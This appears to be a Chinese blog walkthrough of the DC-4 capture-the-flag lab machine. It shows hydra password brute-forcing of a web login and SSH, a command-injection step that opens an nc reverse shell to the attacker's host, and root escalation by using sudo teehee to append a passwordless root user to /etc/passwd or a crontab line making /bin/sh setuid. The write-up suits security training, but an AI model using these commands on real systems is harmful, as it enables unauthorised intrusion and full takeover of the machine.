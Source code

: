 ```yaml
---

title: DC_4靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_10.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, DC]   # 可以是数组
top: false

---
```


# DC_4靶机渗透测试

[参考链接1](https://www.blacknight.top/2020/10/25/vulnhub_DC/#DC-4)

[参考链接2](https://www.anquanke.com/post/id/178658#h3-5)

[参考链接3]([DC4靶机渗透 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1803027?from=article.detail.1801074))

[参考链接4]([DC4-靶机_Au-CSDN博客](https://blog.csdn.net/Auuuuuuuu/article/details/100059696))



### 一、信息收集

- 扫描主机以及端口

[![R8FaCD.png](https://z3.ax1x.com/2021/06/26/R8FaCD.png)](https://imgtu.com/i/R8FaCD)

- 进入192.168.0.151：80

![image-20210626115918645](http://cdn.mxrblog.cn/image-20210626115918645.png)



- 可以看到上面说的是管理员信息系统登陆，于是以用户名为admin，用hydra进行密码爆破

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.151 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
```

![image-20210627222833305](http://cdn.mxrblog.cn/image-20210627222833305.png)

- 可以发现账号admin的密码是happy，登录一下看看，发现我们可以使用的几个命令

![image-20210627223132593](http://cdn.mxrblog.cn/image-20210627223132593.png)

![image-20210627232008658](http://cdn.mxrblog.cn/image-20210627232008658.png)



- 思路：网页上执行的是ls -l 命令，我们可以将网页发送的命令用brupsuite替换

![image-20210627231931042](http://cdn.mxrblog.cn/image-20210627231931042.png)

- 替换radio的参数为nc -e /bin/sh 192.168.0.145 4444

![image-20210628001837189](http://cdn.mxrblog.cn/image-20210628001837189.png)

![image-20210628001855516](http://cdn.mxrblog.cn/image-20210628001855516.png)

- 登录后获取交互式shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

- 得到home文件夹下有三个用户目录：charles，jim，sam ，并在jim用户下发现了密码本

![image-20210628004915269](http://cdn.mxrblog.cn/image-20210628004915269.png)

- 将密码本复制，并用hydra破解用户密码

```
hydra -L user -P userpwd -t 6  192.168.0.151 ssh
```

![image-20210628012451900](http://cdn.mxrblog.cn/image-20210628012451900.png)

- 登陆后发现有新邮件，进入、/var/mail查看

![image-20210628014055664](http://cdn.mxrblog.cn/image-20210628014055664.png)

- 发现邮件里的charles用户密码为^xHhA&hvim0y 进行登录
- 然后用sudo -l 发现charles可以使用的root命令teehee，用teehee –help发现这是将信息写入写出的工具

![image-20210628021417969](http://cdn.mxrblog.cn/image-20210628021417969.png)

- 用teehee向passwd添加用户

- `/etc/passwd` 各个字段的含义：

  ```
  username:password:User ID:Group ID:comment:home directory:shell
  ```

  密码我们直接置空，uid和gid都是0，也就是root用户，也就是说覆盖了root账户，密码为0

  写入用户

  ```
  echo "admin::0:0:::/bin/bash" |sudo teehee -a /etc/passwd
  ```

![image-20210628022918219](http://cdn.mxrblog.cn/image-20210628022918219.png)



- 另一种解决方法，向任务计划中添加任务



```
通过定时任务执行脚本提权，向/etc/crontab文件中写入新的定时任务

通过teehee的sudo提升权限以 root身份写入crontab计划任务通过执行获取root权限

echo "* * * * * root chmod 4777 /bin/sh" | sudo teehee -a /etc/crontab 
时间部分全部填写为*，默认这个定时任务每分钟执行一次。

通过执行的脚本将 /bin/sh 的权限修改为4777，这样就可以在非root用户下执行它，并且执行期间拥有root权限。
```



![image-20210628024031625](http://cdn.mxrblog.cn/image-20210628024031625.png)
